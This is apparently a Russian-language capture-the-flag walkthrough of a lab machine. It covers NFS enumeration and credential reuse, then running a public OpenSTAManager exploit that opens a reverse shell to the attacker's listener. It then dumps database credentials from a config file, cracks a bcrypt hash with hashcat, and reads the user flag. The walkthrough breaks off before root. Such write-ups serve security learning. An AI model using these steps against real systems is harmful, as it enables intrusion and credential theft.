


# Вопросы
1. Submit User Flag
2. Submit Root Flag
# Разведка и решение
Для начало просканируем с помощью nmap ip машины:
```bash
nmap -sC -sV <ip_host>
```
Вывело больше 2-х открытых партов, что настораживает проверить сервисы на открытых парах. В итоге из интересных сервисов я нашел NFS (Network File System или Сетевая файловая система):
```bash
2049/tcp open  nfs_acl  3 (RPC #100227)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Мы можем примонтировать его. И получить доступ к некоторым файлам:
```bash
showmount -e 10.129.239.191 #  показывает список NFS-экспортов
sudo mkdir -p /mnt/onboarding # монтирование NFS 
```
Дальше переходим в папку и видим pdf файл. Откроем его и посмотрим содержимое:



Теперь можем зайти в аккаунт с найденными кредами. Главное добавить ``mail001.enigma.htb`` в ``/etc/hosts``.  Проверил версию mail и она была не устаревшей, так же проверил плагины, но на них тоже не было актуальных CVE. Поэтому я решил зайти под аккаунтом sarah с паролем от kevin и подошло... После входа мы видим еще одно письмо:
```text
Hi Sarah,

Apologies for the delay. I have provisioned your access. Please find the details below:

URL: http://support_001.enigma.htb
Username: admin
Password: Ne3s4rtars78s

Note: I will create a dedicated account for you shortly, for now you can use the admin account to get started.

Regards,
IT Support
Enigma Corp
```
Переходим по ссылке и логинемся с предоставленным кредами. Дальше сразу смотрим версию OpenSTAManager и актуальные CVE. Я нашел CVE-2026-38751 и давайте его проэксплотируем:
```bash
git clone https://github.com/Pasindu-sd/CVE-2025-69212-Exploit.git
cd CVE-2025-69212-Exploit
```
Скопировав репозиторий мы запускаем python скрипт, но перед этим запустим прослушку на 4444 порте:
```bash
nc -lvnp 4444

python3 exploit.py \
  -u http://support_001.enigma.htb \
  -U admin \
  -P 'Ne3s4rtars78s' \
  -r 10.10.16.150 4444
```
Вот у нас и получилось попасть в систему, теперь нам надо зайти под пользователем и прочитать флаг. Сначало я решил прочитать конфигурацию сайта:
```bash
cat /var/www/html/openstamanager/config.inc.php
```
Полезная информация в выводе:
```bash
// Impostazioni di base per l'accesso al database
$db_host = 'localhost';
$db_username = 'brollin';
$db_password = 'Fri3nds@9099';
$db_name = 'openstamanager';
// $port = '|port|';
$db_options = [
    // 'sort_buffer_size' => '2M',
];
```
Теперь из БД надо вытащить логин и hash пароля: 
```bash
mysql -u brollin -p'Fri3nds@9099' openstamanager
SELECT id, username, email, password FROM zz_users;
```
Вывод:



Теперь копируем hash в txt фаил и брутим с помощью hashcat:
```bash
hashcat -m 3200 -O ./hash,txt ~/Work/dict/rockyou.txt
```
Вывод:
```text
$2y$10$WHf1T79sxjsZongUKT2jGeexTkvihBQyCZeoYXmObiNphrsZDr6eC:bestfriends
```
Подобрав пароль мы можем авторизоваться под пользователем:
```bash
su haris
# bestfriends
```
Дальше переходим в домашнюю директорию и читаем флаг пользователя.
```bash
cat /home/haris/user.txt
# 9b27e9bda90c921e9d3687af264b3c94
```
На первый вопрос ответили:
```text
Submit User Flag
9b27e9bda90c921e9d3687af264b3c94
```
Теперь нам надо повысить привелегии до админа и сдать root флаг.